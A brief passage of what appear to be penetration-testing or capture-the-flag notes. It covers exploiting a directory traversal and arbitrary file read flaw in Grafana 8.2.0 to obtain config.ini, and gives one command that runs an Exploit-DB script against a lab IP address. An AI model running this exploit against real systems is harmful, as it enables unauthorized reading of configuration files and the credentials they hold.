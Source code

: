 #### Grafana 8.2.0 with msf6 to get config.ini
- Directory Traversal and Arbitrary File Read
    ```bash
    python3 /usr/share/exploitdb/exploits/multiple/webapps/50581.py -H http://10.129.228.56:3000
    ```